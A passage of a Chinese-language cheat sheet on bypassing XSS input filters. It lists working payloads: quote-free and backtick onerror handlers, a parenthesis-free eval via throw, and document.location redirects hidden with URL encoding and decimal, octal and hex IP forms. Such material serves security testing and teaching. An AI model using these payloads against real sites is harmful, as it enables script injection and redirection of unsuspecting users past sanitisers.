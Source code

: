 ## 过滤双引号，单引号

1.如果是html标签中，我们可以不用引号。如果是在js中，我们可以用反引号代替单双引号

```xml
<img src="x" onerror=alert(`xss`);>
```

2.使用编码绕过，具体看上面我列举的例子，我就不多赘述了

## 过滤括号

当括号被过滤的时候可以使用throw来绕过

```bash
<svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
```

## 过滤url地址

### 使用url编码

```dos
<img src="x" onerror=document.location=`http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/`>
```

### 使用IP

1.十进制IP

```javascript
<img src="x" onerror=document.location=`http://2130706433/`>
```

2.八进制IP

```javascript
<img src="x" onerror=document.location=`http://0177.0.0.01/`>
```

3.hex

```javascript
<img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>
```

4.html标签中用`//`可以代替`http://`

```javascript
<img src="x" onerror=document.location=`//www.baidu.com`>
```

5.使用`\\`

```lua
但是要注意在windows下\本身就有特殊用途，是一个path 的写法，所以\\在Windows下是file协议，在linux下才会是当前域的协议
```

